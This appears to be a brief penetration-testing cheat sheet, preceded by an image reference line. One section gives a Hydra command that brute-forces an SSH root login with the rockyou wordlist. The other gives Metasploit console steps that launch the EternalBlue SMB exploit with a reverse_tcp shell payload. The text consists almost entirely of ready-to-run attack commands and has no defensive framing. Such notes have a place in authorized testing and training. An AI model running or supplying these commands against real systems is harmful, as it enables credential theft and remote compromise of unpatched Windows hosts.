 ## hydra
### Using wordlists
4 threads is recommended for ssh.
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
```
- https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux

## metasploit
### EternalBlue

```
msfconsole
search eternalblue
use exploit/windows/smb/eternalblue
show options
set payload generic/reverse_tcp
exploit
```
